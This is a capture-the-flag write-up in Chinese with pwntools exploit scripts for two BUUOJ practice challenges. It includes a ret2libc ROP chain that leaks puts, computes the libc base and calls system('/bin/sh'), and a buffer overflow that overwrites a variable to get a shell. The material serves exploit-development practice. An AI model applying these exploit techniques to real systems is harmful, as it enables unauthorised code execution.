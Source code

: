 # ciscn_2019_en_2 / ciscn_2019_c_1

没什么好说的，注意栈对齐和接收puts地址的写法就好

```
#coding = utf-8
from pwn import *
context(arch = 'amd64', os = 'linux', log_level = 'debug')
p = process('./ciscn_2019_c_1')
#p = remote('node3.buuoj.cn', 28615)#Use this to attack remote
e = ELF('./ciscn_2019_c_1')
p.recvuntil('Welcome to this Encryption machine\n')
p.sendline(b'1')
p.recvuntil('Input your Plaintext to be encrypted\n')
#libc = ELF('libc-2.27.so')#Use this to attack remote
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
puts_plt_addr = e.plt['puts']
puts_got_addr = e.got['puts']
main_addr = e.symbols['main']#To get secondary stack overflow, must return to 'main' function
offset = 0x58
pop_rdi_ret_addr = 0x0400c83
ret_addr = 0x04006b9
payload1 = '\0' + b'a' * (offset - 1) + p64(pop_rdi_ret_addr) + p64(puts_got_addr) + p64(puts_plt_addr) + p64(main_addr)#!!!!!!
p.sendline(payload1)
p.recvline(keepends=True)
p.recvline(keepends=True)
puts_true_addr = u64(p.recvuntil('\n')[:-1].ljust(8,'\0'))#!!! To use 'puts' to show the true address, you must get rid of '\n' behind
print(hex(puts_true_addr))
p.recvuntil('Welcome to this Encryption machine\n')
p.sendline(b'1')
p.recvuntil('Input your Plaintext to be encrypted\n')
libc_base_addr = puts_true_addr - libc.symbols['puts']
system_true_addr = libc_base_addr + libc.symbols['system']
bin_sh_true_addr = libc_base_addr + libc.search('/bin/sh').next()
payload2 = '\0' + b'a' * (offset - 1) + p64(ret_addr) + p64(pop_rdi_ret_addr) + p64(bin_sh_true_addr) + p64(system_true_addr)#!!!!!
p.sendline(payload2)
p.interactive()
```

# ciscn_2019_n_8

要注意&var[13]是(_QWORD  *)类型的，也就是指向的数据是8个字节，而var[13]本身是四个字节

![image-20210324184629690](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041736548.png)

```
from pwn import *
context(arch = 'i386', os = 'linux', log_level = 'debug')
#p = process('./pwn')
p = remote('node3.buuoj.cn', 27715)
p.recvuntil("What's your name?")
payload = b'\x11' * 13 * 4 + p64(0x11) + '\0'
p.sendline(payload)
p.interactive()
```
